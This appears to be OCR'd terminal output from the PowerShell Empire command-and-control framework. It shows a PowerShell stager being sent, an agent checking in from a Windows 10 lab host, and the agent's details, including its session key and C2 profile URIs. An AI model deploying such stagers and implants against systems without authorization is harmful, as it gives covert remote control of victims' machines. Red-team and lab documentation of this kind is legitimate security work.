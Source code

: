```
(Empire: agents) > 
[*] Sending POWERSHELL stager (stage 1) to 192.168.178.82                                                                               
[*] New agent H47YS5CV checked in
[+] Initial agent H47YS5CV from 192.168.178.82 now active (Slack)
[*] Sending agent (stage 2) to H47YS5CV at 192.168.178.82
agents

[*] Active agents:
                                                                                                                                        
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H47YS5CV ps 192.168.178.82  DESKTOP-KB6QKG7   DESKTOP-KB6QKG7\test    powershell         5912   5/0.0    2021-05-30 13:50:31  ListenerTest    

(Empire: agents) > interact H47YS5CV
(Empire: H47YS5CV) > info

[*] Agent info:                                                                                                                         
                                                                                                                                        
        checkin_time            2021-05-30 13:48:25.044699+00:00
        delay                   5
        external_ip             192.168.178.82
        high_integrity          False
        hostname                DESKTOP-KB6QKG7
        internal_ip             192.168.178.82
        jitter                  0.0
        kill_date       
        language                powershell
        language_version        5
        lastseen_time           2021-05-30 13:50:41.525684+00:00
        listener                ListenerTest
        lost_limit              60
        name                    H47YS5CV
        nonce                   8846145887167469
        os_details              Microsoft Windows 10 Pro
        process_id              5912
        process_name            powershell
        profile                 /admin/get.php,/news.php,/login/process.php|Mozilla/5.0 (Windows NT
                                6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
        session_id              H47YS5CV
        session_key             [*nklTP2MsD_A1Rc:#j|zqi5\o4x6?Z{
        username                DESKTOP-KB6QKG7\test
        working_hours   


```
